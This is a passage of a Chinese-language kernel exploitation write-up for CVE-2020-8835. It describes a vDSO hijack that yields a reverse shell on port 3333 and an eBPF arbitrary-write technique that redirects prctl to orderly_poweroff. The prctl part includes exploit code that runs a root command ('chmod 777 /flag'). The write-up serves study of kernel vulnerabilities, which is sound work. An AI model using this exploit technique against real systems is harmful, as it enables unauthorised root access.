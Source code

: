 接下来是最后一步,也是最关键的一步,fork()一个新的子进程,并调用我们劫持的函数,而父进程3333端口进行监听,等待子进程的反弹shell,代码如下:
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704215533-079448b4-bdfe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704215533-079448b4-bdfe-1.png)
运行结果如下:
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704215619-234603d6-bdfe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704215619-234603d6-bdfe-1.png)

代码及运行环境见:
https://github.com/snappyJack/Rick_write_exp_CVE-2020-8835/tree/master/vdso

### 劫持HijackPrctl

除了劫持vdso,我们还可以利用劫持prctl函数使其最终运行到call_usermodehelper,并且自定义参数,达到在内核运行任意命令的目的,做到提权.

##### prctl函数流程分析

根据内核版本找到系统调用prctl的流程如下
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704220050-c4baac1c-bdfe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704220050-c4baac1c-bdfe-1.png)
我们看到prctl函数的参数原封不动的传到了security_task_prctl中,继续跟进,看到函数运行了`hp->hook.task_prctl`
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704230840-3e50fc58-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704230840-3e50fc58-be08-1.png)
分析完了prctl,接下来我们在/kernel/reboot.c中查看`__orderly_poweroff`函数
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704230935-5f80041e-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704230935-5f80041e-be08-1.png)
发现该函数的参数只有一个,且为布尔类型.最终运行了run_cmd(),而poweroff_cmd为全局变量

我们可以将`hp->hook`地址指向的值改为orderly_poweroff,将变量,poweroff_cmd改为我们想要执行的命令,这样我们运行prctl()就等同于运行`__orderly_poweroff(any_command)`,而后者具有root权限

我们首先使用gdb或者`more /proc/kallsyms`命令查看函数地址
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704231006-71d948d2-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704231006-71d948d2-be08-1.png)
通过任意地址写,修改变量poweroff_cmd和`hp->hook`地址,然后调用prctl,进行触发.代码如下

```
expbuf64[0] = 0x81090c90 -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824b2240);       // security_task_prctl 改为 orderly_poweroff
expbuf64[0] = 0x6e69622f -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824467c0);       //命令改为 chmod 777 /flag
expbuf64[0] = 0x6d68632f -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824467c0+0x4);   //命令改为 chmod 777 /flag
expbuf64[0] = 0x3720646f -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824467c0+0x8);   //命令改为 chmod 777 /flag
expbuf64[0] = 0x2f203737 -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824467c0+0xc);   //命令改为 chmod 777 /flag
expbuf64[0] = 0x67616c66 -1;
bpf_update_elem(expmapfd,&key,expbuf,0xffffffff824467c0+0x10);   //命令改为 chmod 777 /flag

prctl(0,0);     //调用劫持的prctl,相当于运行__orderly_poweroff(bool force),而全局变量poweroff_cmd = 'chmod 777 /flag'
```
